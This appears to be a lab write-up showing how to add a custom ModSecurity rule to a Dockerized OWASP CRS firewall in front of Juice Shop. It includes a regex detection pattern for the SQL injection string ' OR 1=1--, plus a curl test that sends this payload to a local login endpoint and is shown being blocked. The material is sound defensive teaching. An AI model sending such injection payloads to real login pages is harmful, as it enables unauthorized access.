

---


## 🛡️ Task 2 – Part 2: Adding a Custom ModSecurity Rule in Dockerized OWASP CRS
This part involves creating a custom Web Application Firewall (WAF) rule to detect and block simple SQL injection attempts in a containerized OWASP ModSecurity Core Rule Set (CRS) environment.

### ✅ Step 1: Create Custom Rule File
Create a file named custom-rules.conf with the following rule definition:

```bash
cat <<EOF > custom-rules.conf
SecRule REQUEST_BODY|ARGS|ARGS_NAMES|REQUEST_URI|REQUEST_HEADERS \
    "@rx (?i)(\\\\)?['\"]\s*OR\s*1=1\s*--" \
    "id:1005,\
    phase:2,\
    deny,\
    status:403,\
    msg:'Custom SQLi Rule',\
    chain"
    SecRule REQUEST_HEADERS:Content-Type "application/json"
EOF
```
Purpose: This rule matches a classic SQL injection pattern and only triggers if the Content-Type is application/json.

### 🐳 Step 2: Update Docker Configuration
Modify docker-compose.yml to mount your custom rule file:

```yaml
services:
  modsecurity:
    image: owasp/modsecurity-crs:nginx
    volumes:
      - ./custom-rules.conf:/etc/modsecurity.d/owasp-crs/rules/custom-rules.conf:ro
    environment:
      - BACKEND=http://juice-shop:3000
    ports:
      - "8080:8080"
```
🔒 Use :ro to ensure the rule file is read-only within the container.
📁 Rules must be mounted in: /etc/modsecurity.d/owasp-crs/rules/

🔁 Step 3: Automatic Inclusion
No manual Include is needed — CRS automatically loads all .conf files in the rules/ directory:

```apache
# Already included in CRS:
Include /etc/modsecurity.d/owasp-crs/rules/*.conf
```
### 🧪 Step 4: Test the Configuration
Restart the containers and send a test SQLi payload:

```bash
# Restart containers
docker-compose down && docker-compose up -d
```

```bash
# Test with curl
curl -v http://localhost:8080/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"\\'\'' OR 1=1--", "password":"x"}'
```
🟢 Response:
```html
< HTTP/1.1 403 Forbidden
< Server: nginx
< Date: Sat, 12 Apr 2025 19:56:29 GMT
< Content-Type: text/plain
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< Access-Control-Max-Age: 3600
< Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
< Access-Control-Allow-Headers: *
< 
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx</center>
</body>
</html>
```
### 🔍 Step 5: Check for Rule Activation
Check if your custom rule triggered by viewing logs:

```bash
docker-compose logs modsecurity | grep 'id "1005"'
```
log entry:

```css
modsecurity-1  | 2025/04/12 19:56:29 [error] 547#547: *31 [client 172.18.0.1] ModSecurity: Access denied with code 403 (phase 2). Matched "Operator `Rx' with parameter `application/json' against variable `REQUEST_HEADERS:Content-Type' (Value: `application/json' ) [file "/etc/modsecurity.d/owasp-crs/rules/custom-rules.conf"] [line "1"] [id "1005"] [rev ""] [msg "Custom SQLi Rule"] [data ""] [severity "0"] [ver ""] [maturity "0"] [accuracy "0"] [tag "modsecurity"] [tag "modsecurity"] [hostname "172.18.0.3"] [uri "/rest/user/login"] [unique_id "174448778951.660669"] [ref "o11,11o11,1v138,40o0,11o0,1v11,11o0,16v102,16"], client: 172.18.0.1, server: localhost, request: "POST /rest/user/login HTTP/1.1", host: "localhost:8080"
```
<!-- 🧠 Key Configuration Notes
🧬 Rule Scope
Matches across:

REQUEST_BODY, ARGS, ARGS_NAMES

REQUEST_URI, REQUEST_HEADERS

Uses chain to require JSON content type

🔐 File Permissions
Mounted read-only via :ro

Must be readable by the nginx user inside the container

⏱️ Rule Load Order
CRS loads rules alphabetically

You may prefix with REQUEST-9XX- to ensure desired load sequence -->







<!-- 🛠️ Troubleshooting
📍 Verify File Placement
bash
Copy
Edit
docker exec -it modsecurity ls -l /etc/modsecurity.d/owasp-crs/rules/
Should include:

vbnet
Copy
Edit
custom-rules.conf
✅ Validate Nginx Configuration
bash
Copy
Edit
docker exec -it modsecurity nginx -t
Expected:

bash
Copy
Edit
nginx: configuration file /etc/nginx/nginx.conf test is successful
👁️ Test in Detection Mode (Optional)
In development, you can switch to detection mode to observe without blocking:

apache
Copy
Edit
SecRuleEngine DetectionOnly
Monitor logs at /var/log/modsec_audit.log

📁 Final Directory Structure (Inside Container)
lua
Copy
Edit
/etc/modsecurity.d/owasp-crs/
├── crs-setup.conf
└── rules/
    ├── REQUEST-941-APPLICATION-ATTACK-XSS.conf
    ├── REQUEST-942-APPLICATION-ATTACK-SQLI.conf
    └── custom-rules.conf   <-- Your custom rule here -->
